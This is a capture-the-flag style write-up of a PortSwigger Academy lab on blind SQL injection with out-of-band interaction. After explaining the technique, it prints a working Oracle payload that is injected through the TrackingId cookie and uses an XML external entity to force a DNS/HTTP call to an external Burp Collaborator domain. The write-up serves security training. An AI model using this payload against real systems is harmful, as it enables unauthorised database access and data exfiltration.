





Write-up by wook413

# Lab: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interaction with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---

# Pre-lab

Before solving the lab, let's first talk about what **Out-of-Band** is.

What is Out-of-band?

Normally, SQL injection is confirmed in one of two ways:

- **In-band**: the result shows up directly in the response (e.g. UNION-based attack that prints data straight into the page)
- **Blind:** nothing shows up visually, but the response differs based on true/false conditions (boolean-based), or takes longer to respond (time-based).

**Out-of-band** is the technique you reach for when neither of those works. The application's HTTP response gives you absolutely no feedback about whether the injection succeeded (as the lab description states: "the query is executed asynchronously and has no effect on the application's response"). Instead, you force the database server to send a signal out through **a completely separate channel**, a different network protocol entirely.

The most common channel is **DNS**. In other words, the injection tricks the database into performing a DNS lookup to a domain you control.

---

Since I had no way of knowing which database engine was running on the backend, I decided to work through the payloads from the cheat sheet starting with Oracle and moving down toward MySQL if that didn't pan out.



I opened up **Burp Collaborator** and clicked "Copy to clipboard" to issue myself a unique subdomain: `pkdv93w5bwfcbibaj284fqphr8xzlp9e.oastify.com`. I then took the Oracle out-of-band payload from the cheat sheet, substituted in my own Collaborator subdomain, and appended the resulting query to the `TrackingId` cookie value via string concatenation. The final payload looked like this:

```
tJPV1L1ziTRfr1GK' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://pkdv93w5bwfcbibaj284fqphr8xzlp9e.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```





After sending the request, I switched back to Burp Collaborator and clicked "Poll now". Sure enough, a DNS interaction had come through from the application server. Since Collaborator subdomains are randomly generated and known only to me, this DNS lookup served as conclusive proof that my payload had been parsed and executed on the backend even though the HTTP response itself gave no indication that anything had happened.



### Solved!

